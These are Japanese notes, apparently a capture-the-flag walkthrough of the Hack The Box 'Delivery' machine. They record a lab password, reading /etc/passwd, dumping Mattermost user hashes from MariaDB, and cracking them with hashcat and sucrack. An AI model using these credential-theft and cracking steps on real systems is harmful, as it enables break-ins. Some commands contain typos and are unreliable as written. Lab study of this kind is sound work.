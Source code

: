 - namp
	- 22 ssh 
	- 80 http nginx 1.14.2
	- http-title: Welcome
- ブラウザで確認
- hostsファイルに10.10.10.222を追加
- helpdesk.delivery.htbも登録
- 「MatterMost server」はdelivery.htb:8065なのでこれもhostsファイルに登録する
- 「Mattermost」のログインページが表示される。Mattermost：チャットのようなもの
- ヘルプデスクのページに戻り
- 「osTicket」について調べる
- osTicketのgithubに行ってバージョンを列挙   
![515b72b8147309dd756c8013be516ddd.png](../../_resources/515b72b8147309dd756c8013be516ddd.png)  
- 何種類かファイルを試してもバージョンを確認できない
- サポートページの「Check Ticket Status」で現在のステータスを確認する。「EmailAddress」「Ticket Number」を入力する
- 「Mattermost」のログインページでアカウントを作成
- email addressはサポートのアドレスを入力、ユーザー名とパスワードを入力して「Create Account」をクリック
- アドレスにアクセスしてメールを有効にするようにメッセージが届く
- アドレスにアクセスしてMattermostにログインする
- サーバーへの認証は maildeliverer:Youve_G0t_Maill!
- sshで接続に成功する
- 最も重要なメール配信者がいる4つのアカウントだけを抽出
```
cat /etc/passwd | grep -v 'false\nologin'
```

- PleaseSubscribe!とhashcatのルールでパスワードリストを作成する
```
vi pw
>>>>>PleaseSubscribe!(pwファイルに単語を登録しておく)
```

```
hashcat --stdout pw -r /usr/share/hachcat/rules/best64.rule > pwlist
```
- sshはrootのログインを許可しない設定になっていることが多い
```
less /etc/ssh/sshd_config
```
```
PermitRootLogin no
```
- 上記の記述が確認できる
- sucrackを使用して権限昇格をする
- sucrackとpwlistを対象端末に移動
```
sucrack -a -w 20 -s 10 -u root -r pwlist
Password is: PleaseSubscribe!21
```

- 別の特権昇格のやり方としてattermostは/optにあると思われるので/optにアクセスする
- mattermostのconfigディレクトリにconfig.jsonがあるので内容を確認してみる
- mysqlのユーザー名とパスワードが書いてあるので実行してみる
- MariaDBにアクセスできる
```
> show dataabses;
> use mattermost
> show tables;
> select * from Users;
> describe Users  (テーブルの構造を確認)
> select Id,Username,Password from Users;
```
- ユーザー名rootとパスワードのハッシュが取れたので解析してみる
- hashcatのモード一覧を表示させる
```
hashcat --example-hashes | less
```
- $2で始まるのはbcryptであるので3200になる
- モード3200を踏まえてhashcatを実行してみる
```
hashcat -m 3200 hash.txt pw -r /usr/share/hashcat/rules/abset64.rule
```
- パスワードが解読される
※既にクラックしたファイルを再度クラックする時は以下のコマンドを実行する
```
rm ~/.hashcat/hachcat.potfile
```